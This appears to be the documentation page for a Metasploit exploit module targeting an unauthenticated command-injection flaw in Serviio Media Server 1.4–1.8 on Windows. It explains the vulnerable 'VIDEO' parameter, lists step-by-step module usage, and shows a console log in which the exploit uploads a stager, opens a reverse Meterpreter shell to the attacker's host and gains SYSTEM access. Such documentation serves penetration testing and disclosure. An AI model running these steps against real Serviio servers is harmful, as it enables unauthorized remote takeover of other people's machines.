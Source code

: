 ## Description

  This module exploits an unauthenticated remote command execution vulnerability in the console component of [Serviio Media Server](http://serviio.org/) versions 1.4 to 1.8 on Windows operating systems.

  The console service (on port 23423 by default) exposes a REST API which which does not require authentication.

  The 'action' API endpoint does not sufficiently sanitize user-supplied data in the 'VIDEO' parameter of the 'checkStreamUrl' method. This parameter is used in a call to cmd.exe resulting in execution of arbitrary commands.

## Vulnerable Application

  Serviio is a free media server. It allows you to stream your media files (music, video or images) to renderer devices (e.g. a TV set, Bluray player, games console or mobile phone) on your connected home network.

  Serviio is based on Java technology and therefore runs on most platforms, including Windows, Mac and Linux (incl. embedded systems, e.g. NAS).

  This module has been tested successfully on Serviio Media Server versions 1.4.0, 1.5.0, 1.6.0 and 1.8.0 on Windows 7.

  Installers:

  * [serviio-1.8-win-setup.exe](http://download.serviio.org/releases/serviio-1.8-win-setup.exe)
  * [serviio-1.7-win-setup.exe](http://download.serviio.org/releases/serviio-1.7-win-setup.exe)
  * [serviio-1.6-win-setup.exe](http://download.serviio.org/releases/serviio-1.6-win-setup.exe)
  * [serviio-1.5-win-setup.exe](http://download.serviio.org/releases/serviio-1.5-win-setup.exe)
  * [serviio-1.4-win-setup.exe](http://download.serviio.org/releases/serviio-1.4-win-setup.exe)

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/windows/http/serviio_checkstreamurl_cmd_exec`
  3. Do: `set rhost [IP]`
  4. Do: `run`
  5. You should get a session

## Scenarios

  ```
  msf > use exploit/windows/http/serviio_checkstreamurl_cmd_exec 
  msf exploit(serviio_checkstreamurl_cmd_exec) > set rhost 172.16.191.166
  rhost => 172.16.191.166
  msf exploit(serviio_checkstreamurl_cmd_exec) > check
  [*] 172.16.191.166:23423 The target appears to be vulnerable.
  msf exploit(serviio_checkstreamurl_cmd_exec) > set verbose true
  verbose => true
  msf exploit(serviio_checkstreamurl_cmd_exec) > check

  [*] 172.16.191.166:23423 Serviio Media Server version 1.8
  [*] 172.16.191.166:23423 The target appears to be vulnerable.
  msf exploit(serviio_checkstreamurl_cmd_exec) > run

  [*] Started reverse TCP handler on 172.16.191.181:4444 
  [*] Serviio Media Server version 1.8
  [*] Command Stager progress -   7.95% done (7999/100636 bytes)
  [*] Command Stager progress -  15.90% done (15998/100636 bytes)
  [*] Command Stager progress -  23.85% done (23997/100636 bytes)
  [*] Command Stager progress -  31.79% done (31996/100636 bytes)
  [*] Command Stager progress -  39.74% done (39995/100636 bytes)
  [*] Command Stager progress -  47.69% done (47994/100636 bytes)
  [*] Command Stager progress -  55.64% done (55993/100636 bytes)
  [*] Command Stager progress -  63.59% done (63992/100636 bytes)
  [*] Command Stager progress -  71.54% done (71991/100636 bytes)
  [*] Command Stager progress -  79.48% done (79990/100636 bytes)
  [*] Command Stager progress -  87.43% done (87989/100636 bytes)
  [*] Command Stager progress -  95.38% done (95988/100636 bytes)
  [*] Sending stage (957487 bytes) to 172.16.191.166
  [*] Command Stager progress - 100.00% done (100636/100636 bytes)
  [*] Meterpreter session 1 opened (172.16.191.181:4444 -> 172.16.191.166:58474) at 2017-05-05 02:49:39 -0400

  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  meterpreter > pwd 
  C:\Program Files\Serviio\bin
  ```
